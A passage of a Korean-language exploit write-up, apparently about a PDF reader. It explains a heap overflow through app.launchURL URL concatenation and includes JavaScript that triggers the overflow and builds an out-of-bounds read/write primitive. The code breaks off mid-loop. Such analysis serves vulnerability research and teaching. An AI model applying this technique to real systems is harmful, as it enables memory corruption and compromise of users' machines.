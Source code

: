         ---
       
       - URL은 다음의 과정을 거쳐 연결된다.
            1. baseURL이 연결된 URL을 위한 heap 영역에 복사된다.
            2. baseURL 뒤에 relativeURl이 복사된다.
            3. Root Cause로 인해 relativeURL에 연결된 string이 relative URL 뒤에 복사된다.
                - string은 다음 ArrayBuffer의 byteLength를 0xFFFFFFFF로 덮어쓴다. <br><br>

    4. LFH에 ArrayBuffer로 할당된 heap 사이에 연결된 URL이 들어갈 공간을 지정한다.
    
    ![image](https://github.com/user-attachments/assets/39409fa9-f79d-451c-a33c-d0b08c2a461a)
    [그림 1] Preparing Heap Layout 모식도
    

## 2. **Triggering the Vulnerability**

```js
function triggerHeapOverflow() {
    try {
        app.launchURL('bb' + 'a'.repeat(0x2608 - 2 - 0x200 - 1 -0x8));
    } catch(err) {}
}
```

1. baseURL이 연결된 URL을 저장할 heap 공간 앞쪽에 복사된다.
    1. 이때, 해당 heap은 ArrayBuffer가 아니라 일반 heap이기 때문에 heap chunk metadata 뒤에 바로 복사 된다. (ArrayBuffer로 할당했을 때 생성된 ArrayBuffer header 위치부터) <br><br>
       
2. relative URL이 연결된 URL을 저장할 heap 공간 뒤쪽에 복사되면서, 연결된 ArrayBuffer의 byteLength 필드를 변조한다.
- [그림 2]과 [그림 3]에서 Base는 baseURL, relative는 relativeURL을 의미한다.

![image](https://github.com/user-attachments/assets/6cfd4595-8b18-4643-8976-5791b27dcbfe)
[그림 2] baseURL이 연결된 URL을 저장할 heap에 저장된 직후 heap과 해당 heap 이후의 heap(ArrayBuffer)의 모습

![image](https://github.com/user-attachments/assets/8ab78877-df7e-4d9c-87e2-87763c10d1f9)
[그림 3] URL 연결이 끝난 후 두 URL을 연결한 heap과 해당 heap 이후의 heap (ArrayBuffer)의 모습

## 3. Get Arbitrary R/W primitive

```js
// 1. oob index에 접근해서 읽고 쓸 수 있는 상대적 r/w primitive를 구현
for (var i = 0; i < arrA.length; i++) {
    if (arrA[i] != null && arrA[i].byteLength == 0xFFFF) {
      var temp = new DataView(arrA[i]);
      temp.setInt32(0x7F0 + 0x8 + 0x4, 0xFFFFFFFF, true);
    }

    if (arrA[i] != null && arrA[i].byteLength == -1) {
      var rw = new DataView(arrA[i]);
      break;
    }
}

// 2. oob base VA(= StartAddr) 획득 => 임의의 VA값 제어
if (rw) {
    curChunkBlockOffset = rw.getUint8(0xFFFFFFED, true);
    BitMapBufOffset = curChunkBlockOffset * (strConUrlSize + 8) + 0x18

    for (var i = 0; i < 0x30; i += 4) {
        BitMapBufOffset += 4;
        signature = rw.getUint32(0xFFFFFFFF + 1 - BitMapBufOffset, true);
        if (signature == 0xF0E0D0C0) {
            BitMapBufOffset -= 0xC;
            BitMapBuf = rw.getUint32(0xFFFFFFFF + 1 - BitMapBufOffset, true);
            break;
```